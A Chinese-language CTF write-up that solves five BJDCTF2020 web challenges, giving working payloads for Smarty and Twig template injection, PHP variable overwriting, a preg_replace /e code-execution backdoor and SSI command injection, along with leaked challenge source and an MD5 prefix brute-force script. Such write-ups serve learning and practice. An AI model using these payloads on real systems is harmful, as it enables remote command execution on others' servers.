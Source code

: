 # BJDCTF2020 Write Up

## 0x01 [BJDCTF2020]The mystery of ip

提示IP,发现是``X-Forwarded-For``搞的

fuzz一下发现有模板注入漏洞

这里的渲染引擎是基于PHP的smarty

Poc:``{{system("<cmd>")}}``

## 0x02 [BJDCTF2020]Cookie is so stable

和上题一样是模板注入，不过注入点在Cookie里

渲染引擎也换成了基于Python的Twig

从网上找到的 Twig poc
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

## 0x03 [BJDCTF2020]Mark loves cat

进去看了一下没事注入点似乎

扫下目录发现
```
Target: http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/

[19:51:17] Starting:
[19:51:20] 200 -   73B  - /.git/description
[19:51:20] 200 -   23B  - /.git/HEAD
[19:51:20] 301 -  169B  - /.git  ->  http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/.git/
[19:51:20] 200 -  137B  - /.git/config
[19:51:21] 200 -    6KB - /.git/index
[19:51:22] 403 -  555B  - /.git/
[19:51:23] 200 -   28KB - /index.php
[19:51:30] 200 -    0B  - /flag.php

Task Completed
```

考虑用Githack 来获取源码

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

如果要拿到flag 我们要保证GET和POST上设定了flag变量

但是根据

```php
foreach($_POST as $x => $y){
    $$x = $y;
}
```
这样后面的``$flag``就会被我们覆盖，拿不到值

但是``exit()``和``die()``一样，所以我们只要把

```php
$yds = "dog";
$is = "cat";
$handsome = 'yds';
```
这几个变量改成``$flag``就可以了

PHP中``$$a``可以理解为``${$a}``

```php
foreach($_GET as $x => $y){// yds => flag
    $$x = $$y; // $yds = $flag
}
```
## 0x04 [BJDCTF2020]ZJCTF不过如此

第一层用``php://input``传值，用``php://filter/convert.base64-encode/resource=next.php``看源码

拿到

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
很显然这里利用``pregmatch \e``调用``getFlag``后门

为了匹配 我们这里设置``$re=\S*``匹配所有非空字符

payload:``/next.php?\S*=${getFlag()}&cmd=<cmd>``


## 0x05 [BJDCTF2020]EasySearch

进去是一个登陆界面，试了一下万能密码都不行，也没有报错信息

扫一下是否有源码泄露，拿到了index.php.swp

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
可以看到只要满足

``$admin == '6d0bc1' == substr(md5($_POST['password']),0,6)``

随便跑个脚本找下

```python
#coding=utf-8
import hashlib
for i in range(10000000):
    payload=str(i).rjust(7,"0")
    md5 = hashlib.md5(payload.encode('utf-8')).hexdigest()
    if ((md5[0:6])=='6d0bc1'):
        print payload  #2020666
        break
```

然后根据源码应该就是利用可控的``$_POST['username']``向生成的``.shtml``文件里注入恶意代码了

SSI Poc
```
<!--#exec cmd="<cmd>"-->
```

返回的报文会提供生成的shtml文件目录

至此我们便可以RCE了